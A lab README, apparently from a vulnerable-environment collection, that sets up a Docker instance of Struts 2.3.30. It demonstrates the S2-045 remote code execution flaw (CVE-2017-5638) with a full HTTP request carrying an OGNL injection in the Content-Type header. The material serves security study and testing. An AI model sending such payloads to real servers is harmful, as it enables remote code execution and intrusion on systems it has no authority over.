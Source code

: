 # S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

 - http://struts.apache.org/docs/s2-045.html
 - https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

Verify the vulnerability by following request:

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

`233*233` has been successfully executed:

![](1.png)
